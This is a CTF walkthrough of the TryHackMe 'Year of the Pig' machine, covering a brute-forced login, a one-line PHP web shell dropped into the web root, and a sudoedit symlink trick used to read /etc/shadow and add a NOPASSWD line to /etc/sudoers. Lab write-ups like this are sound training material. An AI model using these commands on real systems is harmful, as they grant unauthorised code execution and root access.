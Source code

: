 # Year of the Pig Writeup | TryHackMe



<pre>
</pre>



- OS: _Linux_
- Difficulty: _Hard_
- Creator: [_MuirlandOracle_](https://tryhackme.com/p/MuirlandOracle)
- TryHackMe: https://tryhackme.com/

<pre>
</pre>

Year of the Pig is rated as a hard linux machine. First step needed some custom wordlist generation and a custom script to brute force the password of the user then some basic linux privilege escalation that we are gonna get into.



## Nmap



![Image](https://i.imgur.com/KZNXFNL.png)



We can see that there are just 2 port open, those are 22 for SSH and 80 for http. And right from that nmap scan we can already see we have a possible username which is Marco. But anyways we go on to enumerate port 80 more.

## Web

On the front page we can see that Marco talks about planes a lot so we can surely say he loves them.

![Image](https://i.imgur.com/EjEg6iB.png)

Running gobuster we just get `/login.php` and `/api` that are interesting. Going to `/login.php` and trying some default credentials we get something interesting in the response.

![Image](https://i.imgur.com/psMLDc6.png)

It says `Remember that passwords should be a memorable word, followed by two numbers and a special character` , so that is hinting towards brute force of the login page, and also we need a custom wordlist. So to generate the wordlist as the login page says we need the following format:

```
{Memorable Word}{2 Numbers}{A special character} # For an example Marco99!
```

We can easily just guess the special character and the 2 numbers as the numbers go from 00 to 100, but we need a memorable word, and if we remember from earlier, Marco loves planes and talks about them a lot on the main page, so lets get some words from the page.

![Image](https://i.imgur.com/DpFS0QH.png)

Some words stand out, like the ones `Savoia`, `Macchi` and `Curtiss` so we should remember these three. Then I go on to create a python script to help me generate my custom wordlist:

![Image](https://i.imgur.com/j7ukYP8.png)

So for the input to the script we need to give it a wordlist containing just some basic words and then we give it the name to output the wordlist to.  The input wordlist I will use would look something like this:

![Image](https://i.imgur.com/iaBwpq9.png)

I named the file `input.wordlist`. Then we can run the python script with the syntax:

```
python3 generate-wordlist.py input.wordlist custom_wordlist.out
```

After running that command we get a file `custom_wordlist.out` that we can use as the wordlist to brute force the login password. But now we need to find a way to brute force the login page. We can use `BurpSuite` to see how does the web login page make a request towards the back-end. When intercepting the login request we can see the following:

![Image](https://i.imgur.com/oEdsI7o.png)

We see that it makes a POST request to /api/login with json in the data, that json contains username and the password, but that password is not a clear-text password, it is actually a md5 hash of the password we entered. So now I wrote yet another python script but this time to brute force the credentials. My script looks like this:

![Image](https://i.imgur.com/OYRfC5g.png)

The script takes 3 arguments, the first one is the IP of the machine, then it takes the wordlist to use and then it takes the username to brute force. The script is just going through each password in the wordlist and md5 hashing it then sending a POST request to /api/login with the json data. So when we run this script with the wordlist we generated earlier we get a hit:

![Image](https://i.imgur.com/l5wAYn6.png)

After we login we see that we can run system commands, but commands seem very limited, so there is no way I could get a reverse shell from there, and later when we look at the files we see that actually there are just 5/6 certain commands we can run and that's it, so we can try SSH with the credentials we right now have.

![Image](https://i.imgur.com/bimDPAD.png)

And we successfully get into the box as user  `marco`.

## Privilege escalation

After some basic privilege escalation attempts, like `sudo -l`, finding SUID binaries with the command:

```
find / -perm -4200 -type f 2>/dev/null
```

we don't seem to find anything, but then enumerating the filesystem we find an interesting file inside /var/www which is named `admin.db` but only user `www-data` can read it, so we need to get www-data somehow. And if we remember from earlier when running the command `id` we can see that we are in the `web-developers` group, so that hints that we can probably write files inside /var/www/html, so I try just that:

```
echo '<?php system($_GET['c']); ?>' > /var/www/html/ryaagard.php && chmod 777 /var/www/html/ryaagard.php
```

After running that command we wrote a file called `ryaagard.php` inside the /var/www/html and then also ran `chmod 777` on it so any user can read the file and write to it. Then going over to `http://<MACHINE-IP>/ryaagard.php?c=id` we get code execution!

![Image](https://i.imgur.com/e6tW8dv.png)

So now we can read the `admin.db` file we found, I transfer it to my machine in the following screenshot and then open it in sqlite3:

![Image](https://i.imgur.com/YXisVTD.png)

We can see there is a hash for curtis user, or there is 2 for some reason, anyways we take both to crackstation and 1 of those hashes gives us a clear-text password.

![Image](https://i.imgur.com/sORPMx8.png)

And the new credentials we found are `curtis:[REDACTED]`, with those we can run `su - curtis` on `marco` SSH session to get to `curtis` user.

As user `curtis` we run `sudo -l` and we get the following output:

![Image](https://i.imgur.com/8nnPaFG.png)

We can run `sudoedit /var/www/html/*/*/config.php` as any user on the box. But as `curtis` we can't write to /var/www/html, but `marco` can. So we run the next command as `marco`:

```
cd /var/www/html/ && mkdir -p temp/temp
```

to create the 2 directories. After that we think of what can we actually do with this sudoedit as root, and I remembered symbolic links. Basically we create a symbolic link called `config.php` inside /var/www/html/temp/temp/ and link it to /etc/shadow, and we can do that by running the following command as `marco` user:

```
ln -s /etc/shadow /var/www/html/temp/temp/config.php
```

After we ran that command we go over to user `curtis` and run:

```
sudoedit /var/www/html/temp/temp/config.php
```

And we see the contents of /etc/shadow!

![Image](https://i.imgur.com/safRG77.png)

To get root user I run to following commands:

(user `marco`)

```
ln -s /etc/sudoers /var/www/html/temp/temp/config.php
```

(user `curtis`)

```
sudoedit /var/www/html/temp/temp/config.php
```

And then we add this line anywhere in the file:

```
curtis ALL=(ALL) NOPASSWD:ALL
```

and save that file.

Then we can just run `sudo bash` as user `curtis`.

![Image](https://i.imgur.com/VnMHOaw.png)

And we successfully root the machine!

<pre>
</pre>

## Contact

- Twitter: [_ryaagard_](https://twitter.com/ryaagard)
- Discord: *ryaagard#5027*

